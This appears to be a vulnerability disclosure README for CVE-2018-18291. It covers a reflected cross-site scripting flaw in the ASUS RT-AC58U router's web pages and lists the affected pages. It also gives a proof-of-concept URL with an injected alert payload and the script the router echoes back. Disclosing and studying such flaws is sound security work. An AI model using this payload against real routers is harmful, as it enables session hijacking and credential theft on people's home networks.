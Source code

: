 # AsusXSS     
Newly discovered XSS in ASUS RT-AC58U website components. 
CVE-2018-18291

# Vulnerable components       
Advanced_ASUSDDNS_Content.asp       
Advanced_WSecurity_Content.asp        
Advanced_Wireless_Content.asp       
Logout.asp        
Main_Login.asp        
MobileQIS_Login.asp         
QIS_wizard.htma       
YandexDNS.asp       
ajax_status.xml         
apply.cgi         
clients.asp         
disk.asp      
disk_utility.asp        
internet.asp      
and any other component which is not accesible when not logged in.        
# How it works        
Target opens prepared URL:               
``192.168.1.1/Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0``       
which is vulnerable to Reflected XSS.       
Website returns website with this code:               
`<script>top.location.href='/Main_Login.asp?error_status=7&page=Advanced_Wireless_Content.aspn9mn0'-alert(1)-'grqb0&lock_time=31'</script>`         



